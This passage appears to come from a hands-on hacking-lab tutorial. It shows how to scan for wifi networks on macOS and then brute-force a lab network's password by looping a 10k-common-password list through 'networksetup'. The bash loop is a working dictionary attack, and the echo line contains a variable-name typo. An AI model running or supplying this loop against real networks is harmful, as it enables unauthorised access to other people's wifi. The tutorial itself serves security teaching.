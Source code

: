 ```cd HackingLab```
In it, they show two interesting commands:


```/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s```

and

```networksetup -setairportnetwork en0 <SSID_OF_NETWORK> <PASSWORD>```

Try running the first command  (airport -s) from your mac.  On my machine, I find the command is sometimes unreliable and I need to run it multiple times, as you can see below:

![alt text](imgs/airportLarge.PNG "Terminal") 

In this command, you see a list of all the local wifi networks.  So we can confirm we see our target hacking environment.  

Now we need to explore this networksetup command.  If you copy and paste it raw, you'll get an error, because it is expecting you to insert the ssid and the password into the command.  So if we wanted to try a single password against the device, we'd need to do something like the following:

```networksetup -setairportnetwork en0 🌹☠️🌹 somepassword```

(You can get an emoji keyboard by hitting the control+command+space keys simultaneously, and then you can search for skull or rose by typing in "rose" in the keyboard search:

![alt text](imgs/emojiLarge.PNG "Terminal") 

When you run this command, you'll see that your wifi network will disconnect temporarily, and then there will be an error if you guessed the wrong password.  Alright- we found a command that can be used to connect to wifi networks- now we need to combine it with wour password list.

![alt text](imgs/networksetup.gif "Terminal") 

    - [x] Find the wifi network
    - [x] Manually guess some passwords
    - [x] Find a dictionary
    - [x] Find a command to use to connect to wifi networks 
    - [ ] Figure out how to push the passwords from the dictionary file into the wifi connection command
    - [ ] Launch the attack and Discover the credential



# Pushing passwords from dictionary file into the wifi connection cammand:

Next, we're going to do a little bash magic.   

At the terminal, type the following lines in and hit enter at the end of each line:

while read passwordfilevalue; do

networksetup -setairportnetwork en0 🌹☠️🌹 "$passwordfilevalue"

ifconfig en0 | grep inet

echo $passworfilevalue 

done < 10k-most-common.txt


    - [x] Manually guess some passwords
    - [x] Find a dictionary
```